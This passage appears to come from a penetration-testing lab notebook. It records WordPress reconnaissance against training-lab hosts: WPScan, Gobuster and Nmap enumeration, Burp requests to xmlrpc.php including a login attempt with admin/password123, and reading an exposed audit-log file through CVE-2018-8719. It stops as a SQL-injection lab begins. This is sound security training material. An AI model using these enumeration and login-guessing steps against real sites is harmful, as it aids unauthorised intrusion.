[+] WordPress theme in use: twentyseventeen
 | Location: https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-11-12T00:00:00.000Z
 | Readme: https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.8
 | Style URL: https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/wp-content/themes/twentyseventeen/style.css?ver=4.7.1
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/wp-content/themes/twentyseventeen/style.css?ver=4.7.1, Match: 'Version: 1.1'

[+] Enumerating Users (via Passive and Aggressive Methods)📌
 Brute Forcing Author IDs - Time: 00:00:00📌 <======================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin📌
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Dec  5 16:04:45 2024
[+] Requests Done: 56
[+] Cached Requests: 7
[+] Data Sent: 17.584 KB
[+] Data Received: 853.85 KB
[+] Memory used: 186.887 MB
[+] Elapsed time: 00:00:08
```

`curl -s https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/xmlrpc.php`:
```
XML-RPC server accepts POST requests only.
```
❌

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /xmlrpc.php📌 HTTP/2
Host: cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com
Cookie: wordpress_test_cookie=WP+Cookie+check
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/xml; charset=UTF-8
Date: Thu, 05 Dec 2024 15:12:21 GMT
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 403

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>-32700</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>parse error. not well formed</string></value>📌
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```
❌

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /xmlrpc.php📌 HTTP/2
Host: cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com
Cookie: wordpress_test_cookie=WP+Cookie+check
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

<methodCall>
	<methodName>
		system.listMethods📌
	</methodName>
	<params>
	</params>
</methodCall>
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/xml; charset=UTF-8
Date: Thu, 05 Dec 2024 15:13:32 GMT
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4272

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  <value><string>demo.sayHello</string></value>
  <value><string>pingback.extensions.getPingbacks</string></value>
  <value><string>pingback.ping</string></value>
  <value><string>mt.publishPost</string></value>
  <value><string>mt.getTrackbackPings</string></value>
  <value><string>mt.supportedTextFilters</string></value>
  <value><string>mt.supportedMethods</string></value>
  <value><string>mt.setPostCategories</string></value>
  <value><string>mt.getPostCategories</string></value>
  <value><string>mt.getRecentPostTitles</string></value>
  <value><string>mt.getCategoryList</string></value>
  <value><string>metaWeblog.getUsersBlogs</string></value>
  <value><string>metaWeblog.deletePost</string></value>
  <value><string>metaWeblog.newMediaObject</string></value>
  <value><string>metaWeblog.getCategories</string></value>
  <value><string>metaWeblog.getRecentPosts</string></value>
  <value><string>metaWeblog.getPost</string></value>
  <value><string>metaWeblog.editPost</string></value>
  <value><string>metaWeblog.newPost</string></value>
  <value><string>blogger.deletePost</string></value>
  <value><string>blogger.editPost</string></value>
  <value><string>blogger.newPost</string></value>
  <value><string>blogger.getRecentPosts</string></value>
  <value><string>blogger.getPost</string></value>
  <value><string>blogger.getUserInfo</string></value>
  <value><string>blogger.getUsersBlogs</string></value>
  <value><string>wp.restoreRevision</string></value>
  <value><string>wp.getRevisions</string></value>
  <value><string>wp.getPostTypes</string></value>
  <value><string>wp.getPostType</string></value>
  <value><string>wp.getPostFormats</string></value>
  <value><string>wp.getMediaLibrary</string></value>
  <value><string>wp.getMediaItem</string></value>
  <value><string>wp.getCommentStatusList</string></value>
  <value><string>wp.newComment</string></value>
  <value><string>wp.editComment</string></value>
  <value><string>wp.deleteComment</string></value>
  <value><string>wp.getComments</string></value>
  <value><string>wp.getComment</string></value>
  <value><string>wp.setOptions</string></value>
  <value><string>wp.getOptions</string></value>
  <value><string>wp.getPageTemplates</string></value>
  <value><string>wp.getPageStatusList</string></value>
  <value><string>wp.getPostStatusList</string></value>
  <value><string>wp.getCommentCount</string></value>
  <value><string>wp.deleteFile</string></value>
  <value><string>wp.uploadFile</string></value>
  <value><string>wp.suggestCategories</string></value>
  <value><string>wp.deleteCategory</string></value>
  <value><string>wp.newCategory</string></value>
  <value><string>wp.getTags</string></value>
  <value><string>wp.getCategories</string></value>
  <value><string>wp.getAuthors</string></value>
  <value><string>wp.getPageList</string></value>
  <value><string>wp.editPage</string></value>
  <value><string>wp.deletePage</string></value>
  <value><string>wp.newPage</string></value>
  <value><string>wp.getPages</string></value>
  <value><string>wp.getPage</string></value>
  <value><string>wp.editProfile</string></value>
  <value><string>wp.getProfile</string></value>
  <value><string>wp.getUsers</string></value>
  <value><string>wp.getUser</string></value>
  <value><string>wp.getTaxonomies</string></value>
  <value><string>wp.getTaxonomy</string></value>
  <value><string>wp.getTerms</string></value>
  <value><string>wp.getTerm</string></value>
  <value><string>wp.deleteTerm</string></value>
  <value><string>wp.editTerm</string></value>
  <value><string>wp.newTerm</string></value>
  <value><string>wp.getPosts</string></value>
  <value><string>wp.getPost</string></value>
  <value><string>wp.deletePost</string></value>
  <value><string>wp.editPost</string></value>
  <value><string>wp.newPost</string></value>
  <value><string>wp.getUsersBlogs</string></value>📌
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /xmlrpc.php HTTP/2
Host: cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com
Cookie: wordpress_test_cookie=WP+Cookie+check
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

<methodCall>
	<methodName>
		wp.getUsersBlogs📌
	</methodName>
	<params>
		<param>
			<value>
				admin📌
			</value>
		</param>
		<param>
			<value>
				password123📌
			</value>
		</param>
	</params>
</methodCall>
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/xml; charset=UTF-8
Date: Thu, 05 Dec 2024 15:15:36 GMT
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 403

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>📌
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```
❌

### Hidden Files and Sensitive Information Enumeration (with Gobuster)

#### Lab Environment

**WordPress Security Audit Log plugin Sensitive Information Disclosure**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be attacked remotely. Sensitive Information Disclosure vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, <u>the attacker is unauthenticated to the web application and needs to find a sensitive information disclosure attack to access sensitive information from the server</u>.

<u>WordPress Security Audit Log plugin (3.1.1) is vulnerable to a Sensitive Information Disclosure documented in CVE-2018-8719</u>.

**Objective**: Your task is to find and exploit this vulnerability.  

#### Lab Solution

`whatweb https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/`:
```
https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/ [200 OK] Apache[2.4.7], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[172.104.136.144], JQuery[1.12.4], MetaGenerator[WordPress 4.8], PHP[5.5.9-1ubuntu4.27], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[Target WordPress &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[4.8],📌 X-Powered-By[PHP/5.5.9-1ubuntu4.27] 
```

`ls -l /usr/share/seclists/Discovery/Web-Content/CMS/`:
```
total 7096
-rw-r--r-- 1 root root   46364 Nov 20 11:38 caobox-cms.txt
-rw-r--r-- 1 root root     360 Nov 20 11:38 cms-configuration-files.txt🔍

[...]

-rw-r--r-- 1 root root    5604 Nov 20 11:38 joomla-plugins.fuzz.txt
-rw-r--r-- 1 root root     702 Nov 20 11:38 joomla-themes.fuzz.txt
-rw-r--r-- 1 root root  545403 Nov 20 11:38 kentico-cms-modules-themes.txt
-rw-r--r-- 1 root root    5943 Nov 20 11:38 liferay_dxp_default_portlets.txt
-rw-r--r-- 1 root root    8526 Nov 20 11:38 modx-revolution-plugins
-rw-r--r-- 1 root root  101279 Nov 20 11:38 php-nuke.fuzz.txt
-rw-r--r-- 1 root root  313282 Nov 20 11:38 piwik-3.0.4.txt🔍

[...]

-rw-r--r-- 1 root root   58959 Nov 20 11:38 wordpress.fuzz.txt📌
-rw-r--r-- 1 root root  505299 Nov 20 11:38 wp-plugins.fuzz.txt📌
-rw-r--r-- 1 root root  115272 Nov 20 11:38 wp-themes.fuzz.txt📌
```

`gobuster dir --url https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/ --wordlist /usr/share/seclists/Discovery/Web-Content/CMS/wordpress.fuzz.txt -b '404'`:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/CMS/wordpress.fuzz.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-admin/about.php   (Status: 302) [Size: 0] [--> /wp-login.php?redirect_to=https%3A%2F%2Fwo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com%2Fwp-admin%2Fabout.php&reauth=1]
/license.txt          (Status: 200) [Size: 19935]
/readme.html          (Status: 200) [Size: 7413]📌
/wp-admin/admin-footer.php (Status: 200) [Size: 2]
/wp-admin/admin-functions.php (Status: 500) [Size: 0]
/wp-admin/admin-header.php (Status: 500) [Size: 0]
/wp-admin/admin-ajax.php (Status: 200) [Size: 1]
/wp-activate.php      (Status: 302) [Size: 0] [--> /wp-login.php?action=register]
/index.php            (Status: 301) [Size: 0] [--> https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/]
/wp-admin/            (Status: 302) [Size: 0] [--> /wp-login.php?redirect_to=https%3A%2F%2Fwo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com%2Fwp-admin%2F&reauth=1]
/wp-admin/async-upload.php (Status: 302) [Size: 0] [--> /wp-login.php?redirect_to=https%3A%2F%2Fwo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com%2Fwp-admin%2Fasync-upload.php&reauth=1]

[...]
```

`gobuster dir --url https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/ --wordlist /usr/share/seclists/Discovery/Web-Content/CMS/wp-themes.fuzz.txt -b '404'`:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/CMS/wp-themes.fuzz.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 3647 / 3647 (100.00%)
===============================================================
Finished
===============================================================
```
❌

`gobuster dir --url https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/ --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt -b '404'`:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.git                 (Status: 301) [Size: 416] [--> http://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/.git/]
/.git/HEAD            (Status: 200) [Size: 23]
/.git/config          (Status: 200) [Size: 272]
/.git/index           (Status: 200) [Size: 400]
/.git/logs/           (Status: 200) [Size: 1183]
/.hta                 (Status: 403) [Size: 336]
/.htaccess            (Status: 403) [Size: 341]
/.htpasswd            (Status: 403) [Size: 341]
/0                    (Status: 301) [Size: 0] [--> https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/0/]
/2018                 (Status: 301) [Size: 0] [--> https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/2018/]
/LICENSE              (Status: 200) [Size: 10273]
/admin                (Status: 302) [Size: 0] [--> /wp-admin/]

[...]
```

`wpscan --url https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/ [172.104.136.144]
[+] Started: Thu Dec  5 16:23:22 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - server: Apache/2.4.7 (Ubuntu)
 |  - x-powered-by: PHP/5.5.9-1ubuntu4.27
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/wp-content/uploads/📌
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
 |  - https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/feed/, <generator>https://wordpress.org/?v=4.8</generator>
 |  - https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/comments/feed/, <generator>https://wordpress.org/?v=4.8</generator>

[+] WordPress theme in use: twentyseventeen📌
 | Location: https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-11-12T00:00:00.000Z
 | Readme: https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.8
 | Style URL: https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/wp-content/themes/twentyseventeen/style.css?ver=4.8
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:15 <=====================================> (137 / 137) 100.00% Time: 00:00:15

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Dec  5 16:23:49 2024
[+] Requests Done: 169
[+] Cached Requests: 6
[+] Data Sent: 53.757 KB
[+] Data Received: 571.24 KB
[+] Memory used: 333.984 MB
[+] Elapsed time: 00:00:26
```

`curl -s https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/wp-content/uploads/ | htmlq`:
```html
<html><head>
  <title>Index of /wp-content/uploads</title>
 </head>
 <body>
<h1>Index of /wp-content/uploads</h1>
  <table>
   <tbody><tr><th valign="top"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"></td><td><a href="/wp-content/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="2019/">2019/</a></td><td align="right">2019-03-19 15:03  </td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="2024/">2024/</a></td><td align="right">2024-12-05 15:22  </td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="wp-security-audit-log/">wp-security-audit-log/📌</a></td><td align="right">2019-03-19 15:03  </td><td align="right">  - </td><td>&nbsp;</td></tr>📌
   <tr><th colspan="5"><hr></th></tr>
</tbody></table>
<address>Apache/2.4.7 (Ubuntu) Server at wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com Port 80</address>

</body></html>
```

`curl https://wo62flucnto6xs3fc5if813af.eu-central-7.attackdefensecloudlabs.com/wp-content/uploads/wp-security-audit-log/failed-logins/failed_logins_usernames_20180710.log`:
```
Attempts: 3 — Username: test_user
Attempts: 4 — Username: pentester
Attempts: 5 — Username: pentester
Attempts: 6 — Username: tes_user
```

### WordPress Enumeration (with Nmap)

#### Lab Solution

`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.231.193.2📌 netmask 255.255.255.0  broadcast 192.231.193.255
        ether 02:42:c0:e7:c1:02  txqueuelen 0  (Ethernet)
        RX packets 1192  bytes 3617076 (3.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1121  bytes 140621 (137.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`sudo nmap -sSV -p- -T5 192.231.193.3`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-12-06 17:54 IST
Nmap scan report for demo.ine.local (192.231.193.3)
Host is up (0.000025s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))📌
MAC Address: 02:42:C0:E7:C1:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.36 seconds
```

`sudo nmap -sSVC -p80 192.231.193.3`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-12-06 17:55 IST
Nmap scan report for demo.ine.local (192.231.193.3)
Host is up (0.000025s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Target WordPress &#8211; Just another WordPress site📌
| http-robots.txt: 1 disallowed entry 
|_/
|_http-generator: WordPress 4.8📌
MAC Address: 02:42:C0:E7:C1:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.06 seconds
```

`ls -al /usr/share/nmap/scripts | grep 'wordpress'`:
```
-rw-r--r-- 1 root root  5061 Oct 29 04:17 http-wordpress-brute.nse🔍
-rw-r--r-- 1 root root 10866 Oct 29 04:17 http-wordpress-enum.nse📌
-rw-r--r-- 1 root root  4641 Oct 29 04:17 http-wordpress-users.nse📌
```

`sudo nmap -sSV -p80 --script=http-wordpress-enum --script-args type='plugins' 192.231.193.3`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-12-06 17:56 IST
Nmap scan report for demo.ine.local (192.231.193.3)
Host is up (0.000040s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 02:42:C0:E7:C1:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.14 seconds
```
❌

`sudo nmap -sSV -p80 --script=http-wordpress-enum --script-args type='themes' 192.231.193.3`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-12-06 17:56 IST
Nmap scan report for demo.ine.local (192.231.193.3)
Host is up (0.000043s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   themes📌
|     twentyfifteen 1.8📌
|     twentysixteen 1.3📌
|_    twentyseventeen 1.3📌
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 02:42:C0:E7:C1:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.20 seconds
```

`sudo nmap -sSV -p80 --script=http-wordpress-users --script-args limit=50 192.231.193.3`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-12-06 17:56 IST
Nmap scan report for demo.ine.local (192.231.193.3)
Host is up (0.000043s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-wordpress-users:📌
| Username found: admin📌
|_Search stopped at ID #50. Increase the upper limit if necessary with 'http-wordpress-users.limit'
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 02:42:C0:E7:C1:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.11 seconds
```

---

## Vulnerability Scanning

### WordPress Vulnerability Scanning (with WPScan)

#### Lab Environment

**WordPress Symposium plugin SQL Injection**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be compromised remotely. SQL Injection vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, <u>the attacker is unauthenticated to the web application and needs to find a SQL injection attack to access restricted information from the portal</u>.

<u>WordPress Symposium (15.1) is vulnerable to SQL Injection in CVE-2015-6522</u>.

**Objective**: Your mission is to find and exploit this vulnerability.

#### Lab Solution

`wpscan --url https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/ --enumerate p`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/ [172.104.135.113]
[+] Started: Fri Dec  6 11:54:21 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - server: Apache/2.4.7 (Ubuntu)
 |  - x-powered-by: PHP/5.5.9-1ubuntu4.25
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.4 identified (Insecure, released on 2015-12-09).
 | Found By: Rss Generator (Passive Detection)
 |  - https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/?feed=rss2, <generator>https://wordpress.org/?v=4.4</generator>
 |  - https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.4</generator>

[+] WordPress theme in use: twentysixteen
 | Location: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/readme.txt
 | [!] The version is out of date, the latest version is 3.4
 | Style URL: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/style.css?ver=4.4
 | Style Name: Twenty Sixteen
 | Style URI: https://wordpress.org/themes/twentysixteen/
 | Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthead wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
